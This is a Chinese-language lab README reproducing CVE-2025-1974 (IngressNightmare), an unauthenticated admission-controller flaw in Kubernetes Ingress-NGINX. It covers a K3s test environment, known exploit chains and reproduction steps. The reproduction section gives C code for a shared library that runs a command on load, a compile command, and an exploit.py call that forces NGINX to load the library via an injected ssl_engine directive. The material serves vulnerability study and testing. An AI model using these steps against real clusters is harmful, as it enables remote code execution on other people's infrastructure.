

# Kubernetes Ingress-NGINX未授权远程代码执行漏洞(CVE-2025-1974)

Ingress-NGINX是Kubernetes的一个入口控制器，使用NGINX作为反向代理和负载均衡器。

CVE-2025-1974（又称IngressNightmare）漏洞源于Ingress-NGINX Admission Controller的关键缺陷。准入控制器是Kubernetes的内部安全机制，用于在部署传入的入口对象之前对其进行验证。然而，该控制器无需身份验证即可通过网络访问，攻击者可以利用这一特性，向准入控制器发送恶意的`AdmissionReview`请求，注入未授权的配置到Ingress资源中。

指的注意的是，这个漏洞需要配合其他漏洞组合成利用链才能执行任意命令。

已知的可利用链包括：

- CVE-2025-1974 + CVE-2025-24514: 通过`auth-url`注释注入RCE  
- CVE-2025-1974 + CVE-2025-1097: 通过`auth-tls-match-cn`注释注入RCE  
- CVE-2025-1974 + CVE-2025-1098: 通过镜像UID滥用注入RCE

参考链接:

- <https://www.wiz.io/blog/ingress-nginx-kubernetes-vulnerabilities>
- <https://kubernetes.io/blog/2025/03/24/ingress-nginx-cve-2025-1974/>
- <https://github.com/yoshino-s/CVE-2025-1974>
- <https://github.com/Clifford-prog/IngressNightmare-PoC>
- <https://github.com/kubernetes/ingress-nginx/blob/8c1ecd7655bd052a26e64d3361dede3096cd80c6/internal/ingress/controller/controller.go#L425>

## 漏洞环境

执行如下命令启动Kubernetes环境，这里使用轻量的K3s作为集群方案，借助Docker Compose启动：

```
docker compose up -d
```

该脚本会等待Kubernetes API就绪以及ingress-nginx控制器启动。环境启动后，Ingress-NGINX会同时监听30080和30443(TLS)端口，同时，Ingress-NGINX Admission Controller还会反向代理到30443端口，例如`https://localhost:30443/networking/v1/ingresses`。

## 漏洞复现

首先需要编译一个与目标架构相匹配的动态链接库（.so文件）：

```c
#include<stdio.h>
#include<stdlib.h>

__attribute__((constructor)) static void reverse_shell(void)
{
    system("touch /tmp/hacked");
}
```

使用以下命令将上述源代码编译为动态链接库：

```
gcc -shared -fPIC -o shell.so shell.c
```

完成编译后，使用[exploit.py](exploit.py)来复现漏洞：

```
python exploit.py -a https://localhost:30443/networking/v1/ingresses -i http://localhost:30080/fake/addr -s shell.so
```

该利用通过伪造`AdmissionReview`请求，注入`ssl_engine`指令，迫使NGINX加载恶意的动态共享对象。利用成功后，你可以在ingress-nginx容器的`/tmp`目录下看到创建的`hacked`文件。


